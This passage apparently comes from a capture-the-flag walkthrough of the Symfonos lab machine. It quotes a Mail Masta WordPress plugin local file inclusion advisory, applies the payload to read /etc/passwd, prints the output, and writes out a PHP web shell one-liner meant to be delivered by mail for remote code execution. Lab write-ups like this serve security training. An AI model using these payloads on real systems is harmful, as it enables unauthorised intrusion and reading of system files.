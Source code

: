     [+] Date: [23-8-2016]
    [+] Autor Guillermo Garcia Marcos
    [+] Vendor: https://downloads.wordpress.org/plugin/mail-masta.zip
    [+] Title: Mail Masta WP Local File Inclusion
    [+] info: Local File Inclusion

    The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

    Source: /inc/campaign/count_of_send.php
    Line 4: include($_GET['pl']);

    Source: /inc/lists/csvexport.php:
    Line 5: include($_GET['pl']);

    Source: /inc/campaign/count_of_send.php
    Line 4: include($_GET['pl']);

    Source: /inc/lists/csvexport.php
    Line 5: include($_GET['pl']);

    Source: /inc/campaign/count_of_send.php
    Line 4: include($_GET['pl']);

    Typical proof-of-concept would be to load the passwd file:

    http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Going to **http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd**,
we can see that the user "helios" is a user on the machine.

    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false Debian-exim:x:105:109::/var/spool/exim4:/bin/false messagebus:x:106:111::/var/run/dbus:/bin/false sshd:x:107:65534::/run/sshd:/usr/sbin/nologin helios:x:1000:1000:,,,:/home/helios:/bin/bash mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false postfix:x:109:115::/var/spool/postfix:/bin/false 

At this point I got a little stuck, I searched online for "Local File Inclusion remote command execution" and found out that if we can upload to a file on the machine this php script ---> <?php system($_GET['c']); ?> we can perform remote code execution on the machine. I went back to the NMAP scan and saw port 25 is open, maybe we can send a mail and open it using the Local File Inclusion exploit and perform remote execution.

